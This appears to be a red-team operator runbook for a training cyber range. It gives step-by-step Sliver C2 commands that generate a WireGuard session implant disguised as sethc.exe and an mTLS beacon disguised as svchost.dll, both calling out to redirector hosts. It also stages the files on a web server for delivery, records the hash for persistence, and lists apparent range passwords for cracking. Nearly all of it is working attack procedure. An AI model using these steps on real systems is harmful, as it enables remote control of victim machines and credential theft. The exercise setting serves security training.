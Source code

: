 Create Session Implant

generate --wg <% tp.frontmatter.REDIR_SC21 %>:1193,<% tp.frontmatter.REDIR_SC22 %>:1193 -X 1190 -T 1192 -N wgSess --os windows --arch amd64 --format exe --save "/home/kali/Desktop/tools/Service Pack/sethc.exe"

BE SURE TO CHANGE THE DOMAIN AND IP TO THE CORRECT IPS

SESSIONS in SLIVER are similar to any other remote connection. Responses are only limited by latency, and it is just the same as having a reverse shell. It generates a lot of traffic and is pretty loud.

Create Beacon Implant

generate beacon --mtls <% tp.frontmatter.REDIR_LC21 %>:443,<% tp.frontmatter.REDIR_LC22 %>:443 -e --os windows --arch amd64 --format shared -N mtlsBeac --save "/home/kali/Desktop/tools/Service Pack/svchost.dll"

BEACONS in SLIVER respond in time-based intervals as opposed to SESSIONS, which are interactive connections (there is no time or jitter, similar to a SSH session)

If you made the beacon wrong, you're going to have to remove it by typing implants rm <IMPLANT NAME> in the sliver-server cli

Exit the sliver CLI at this time

exit

Take note of the sha256 hash of the sethc.exe

One of our persistence methods will require the sha256 hash to be used.

sha256sum ./sethc.exe

this output will be the name of our session agent when it gets added to the Sysmon Archive folder on a victim machine

Save the hash for later. Copy and paste the sha256 hash of the sethc.exe file

mousepad sethchash.txt

Host the files on a webserver to stage the executables

cd "/home/kali/Desktop/tools/Service Pack"
python -m http.server 8086

Add range passwords into rockyou.txt

Since we don't have unlimited budget or time like real APTs, we will spread the range's credentials into rockyou.txt so we can still crack passwords but do it the right way.

cd /home/kali/Desktop/tools
nano passlist.txt ; awk 'NF' passlist.txt > temp.txt && mv temp.txt passlist.txt

Paste the following into the passlist file

Simspace1!Simspace1!
aIpE9Y+7j#5X
tQc5FwHc@B6r
c+K$u#9j5$nB
Y@9K@2Q5@B$H
q2M@xAx+K+r#
c@5U8j+f2R3P
S$tL9W#Pg6rA
w#I9X9mT4#yS
x$JyP9+t2J9#
cA+I+g@6$p$6
P9@X+Wb@N@pG
n8$Qq#JrD8f2
p3Hu8#8W5X@t
z+b#P@4$PrH9
a$Mg5a8z@iW9
p#y#KpJ9B9Jo